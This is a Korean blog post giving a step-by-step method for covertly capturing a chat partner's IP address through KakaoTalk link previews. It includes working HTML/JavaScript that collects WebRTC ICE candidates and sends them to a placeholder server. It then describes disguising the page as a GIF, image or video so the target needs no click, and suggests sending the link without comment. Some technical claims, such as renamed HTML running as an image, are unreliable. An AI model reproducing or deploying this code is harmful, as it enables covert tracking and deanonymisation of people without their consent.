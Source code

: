 ```yaml
---
title: "사진 한 장으로 아이피 추적하기 2- webrtc"
categories: [sec]

date: 2025-04-02
---
```

## **원리**

1. **카카오톡 미리보기 기능을 활용** → 상대방이 메시지를 클릭하지 않아도 미리보기로 콘텐츠를 로드.
2. **WebRTC 코드가 포함된 미디어 파일을 서버에서 제공** → 상대방이 보는 순간 WebRTC 실행.
3. **WebRTC를 이용해 상대방의 IP 주소를 서버로 전송.**

---

## **🚀 실전 방법**

### ✅ **1단계: WebRTC IP 추적 코드 제작**

먼저, 상대방이 이미지를 보는 순간 WebRTC IP 추적이 실행되도록 **HTML 페이지**를 만든다.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Loading...</title>
    <script>
        async function getIPs() {
            const pc = new RTCPeerConnection({ iceServers: [{ urls: "stun:stun.l.google.com:19302" }] });
            pc.createDataChannel("");
            pc.createOffer().then(offer => pc.setLocalDescription(offer));

            pc.onicecandidate = event => {
                if (event.candidate) {
                    fetch("https://your-server.com/log_ip", {
                        method: "POST",
                        headers: { "Content-Type": "application/json" },
                        body: JSON.stringify({ ip: event.candidate.candidate })
                    });
                }
            };
        }
        getIPs();
    </script>
</head>
<body>
    <img src="your_image.jpg" alt="Loading..." width="1" height="1">
</body>
</html>

```

✅ **설명**

- 상대방이 **이 HTML 페이지를 미리보기로 보게 되면 WebRTC가 실행되어 IP가 추출됨**.
- `fetch("https://your-server.com/log_ip")` 부분에 실제로 IP를 기록할 서버를 넣어야 함.

---

### ✅ **2단계: HTML을 미디어 파일로 위장**

이 HTML을 직접 보낼 수 없으므로, 카카오톡 미리보기에서 자동으로 로드되도록 변형해야 해.

### **🔹 방법 1: GIF 또는 이미지로 위장**

1. **HTML 파일을 이미지처럼 보이도록 변환**
    - `.html`을 `.png`, `.jpg`, `.gif` 등의 확장자로 변경하면 브라우저가 실행할 가능성이 있음.
    - `https://your-server.com/image.gif` URL을 만들고, HTML 대신 GIF처럼 동작하도록 설정.
2. **카카오톡에서 자동 미리보기가 활성화되는지 확인.**

### **🔹 방법 2: 동영상 파일로 위장**

1. `.mp4` 또는 `.mov` 파일을 만들고, 동영상 썸네일을 WebRTC 실행 코드가 포함된 웹 페이지로 연결.
2. 상대방이 채팅방에서 미리보기로 보는 순간 WebRTC 실행.

---

### ✅ **3단계: 카카오톡에서 미리보기가 자동 실행되는지 확인**

카카오톡에서 특정 링크는 미리보기를 자동으로 생성하는데, 이를 활용해야 함.

### **🔍 카카오톡에서 자동 미리보기 생성되는 링크 유형**

| 유형 | 미리보기 자동 실행 가능 여부 |
| --- | --- |
| 일반 HTML | ❌ (클릭 필요) |
| `.png` / `.jpg` (이미지) | ✅ (자동 실행 가능) |
| `.gif` (움직이는 이미지) | ✅ (자동 실행 가능) |
| `.mp4` / `.mov` (동영상) | ✅ (자동 실행 가능) |

💡 **즉, 상대방이 자동으로 미리보기를 보게 하려면 `.gif`, `.mp4`, `.png` 등의 파일로 위장하는 것이 좋음.**

---

## **🔥 실전 시나리오**

1. **서버 설정:**
    - `https://your-server.com/image.gif` 같은 URL에 WebRTC 추적 코드가 포함된 GIF를 업로드.
    - GIF를 미리보는 순간 WebRTC가 실행되도록 설정.
2. **카카오톡에서 전송:**
    
    ```
    
    https://your-server.com/image.gif
    
    ```
    
    - 상대방이 채팅방에서 미리보기로 보면 WebRTC 실행됨.
    
    <aside>
    💡
    
    냅다 아무 말 없이 보내는게 효과적일 것 같음
    
    </aside>
    
3. **IP 수집 확인:**
    - `your-server.com/log_ip`에서 IP 정보를 확인.

---

## **⚠️ 주의할 점**

- **카카오톡에서 미리보기 기능이 업데이트되면 일부 방법이 막힐 수 있음.**
- **상대방이 VPN을 사용하면 실제 IP가 아닌 VPN 서버 IP가 잡힐 가능성이 있음.**
- **법적인 문제를 고려해야 함. 상대방의 동의 없이 정보를 수집하는 것은 법적 책임이 있을 수 있음.**

---

## **💡 결론**

✅ **가장 효과적인 방법**:

- `.gif` 또는 `.mp4` 형식으로 WebRTC 실행 코드를 숨긴 후, 카카오톡에서 자동 미리보기 실행 유도.
- 상대방이 클릭하지 않아도 채팅방에서 **파일을 보는 순간 WebRTC 실행 가능**.